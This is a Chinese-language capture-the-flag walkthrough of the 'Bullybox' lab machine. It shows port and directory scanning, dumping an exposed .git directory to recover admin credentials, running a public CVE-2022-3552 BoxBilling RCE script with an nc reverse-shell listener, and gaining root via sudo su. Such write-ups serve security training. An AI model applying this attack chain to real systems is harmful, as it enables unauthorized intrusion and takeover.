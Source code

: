 ```yaml
---
description: Easy - Linux / BoxBilling 4.22.1.5 / CVE-2022-3552 / sudo su提权
---
```


# ✔️ Bullybox

## 建立立足点

### 信息收集

* 使用Nmap对目标系统的开放端口进行扫描，获取到2个开放端口：22和80

```bash
nmap -sC -sV -p- -oA bullybox 192.168.149.27 --open
```

<figure><img src="../../.gitbook/assets/1.png" alt=""><figcaption></figcaption></figure>

* 将域名添加到hosts文件中：

```bash
echo "192.168.149.27   bullybox.local" | tee -a /etc/hosts
```

* 检查/robots.txt文件，发现一些隐藏目录，依次查看没有任何收获：

<figure><img src="../../.gitbook/assets/2.png" alt=""><figcaption></figcaption></figure>

* 在80端口的登录界面进行注册：

```
- test@test.com
- fiii : Test123456
```

<figure><img src="../../.gitbook/assets/3.png" alt=""><figcaption></figcaption></figure>

* 登录后并没有任何发现，只得知当前系统使用的是boxbilling程序：

<figure><img src="../../.gitbook/assets/4.png" alt=""><figcaption></figcaption></figure>

* 枚举80端口上的隐藏文件/目录，这里发现一些/.git目录：

```bash
gobuster dir -u http://bullybox.local -w /usr/share/seclists/Discovery/Web-Content/common.txt
```

<figure><img src="../../.gitbook/assets/5 (1).png" alt=""><figcaption></figcaption></figure>

* 使用git-dumper提取目标网站的git中的内容：

```bash
git-dumper http://bullybox.local/.git .
```

<figure><img src="../../.gitbook/assets/6.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/7 .png" alt=""><figcaption></figcaption></figure>

* 在提取出来的文件中，**bb-config.php**中发现管理员凭证：

```
- **admin ：Playing-Unstylish7-Provided**
- admin@bullybox.local
```

<figure><img src="../../.gitbook/assets/8.png" alt=""><figcaption></figcaption></figure>

* 使用该有效凭证进入admin的管理界面后，获取到当前运行的软件BoxBilling及其版本号：**BoxBilling 4.22.1.5**

<figure><img src="../../.gitbook/assets/9 .png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/10.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/11.png" alt=""><figcaption></figcaption></figure>

### 漏洞查阅

* 根据应用及其版本号，查询到公开漏洞：CVE-2022-3552
* BoxBilling<=4.22.1.5 - Remote Code Execution

<figure><img src="../../.gitbook/assets/13.png" alt=""><figcaption></figcaption></figure>

* [https://www.exploit-db.com/exploits/51108](https://www.exploit-db.com/exploits/51108)

<figure><img src="../../.gitbook/assets/12.png" alt=""><figcaption></figcaption></figure>

### 漏洞利用

* 在GitHub上找到了相关PoC：

<figure><img src="../../.gitbook/assets/17.png" alt=""><figcaption></figcaption></figure>

### Get Shell

* 修改脚本并利用：

```bash
python3 cve-2022-3552.py -d http://bullybox.local/ -u 'admin@bullybox.local' -p 'Playing-Unstylish7-Provided'

nc -lvnp 4444
```

<figure><img src="../../.gitbook/assets/14.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/15.png" alt=""><figcaption></figcaption></figure>

## 权限提升

### ROOT

* 直接切换至root用户：

```bash
sudo su
```

<figure><img src="../../.gitbook/assets/16.png" alt=""><figcaption></figcaption></figure>
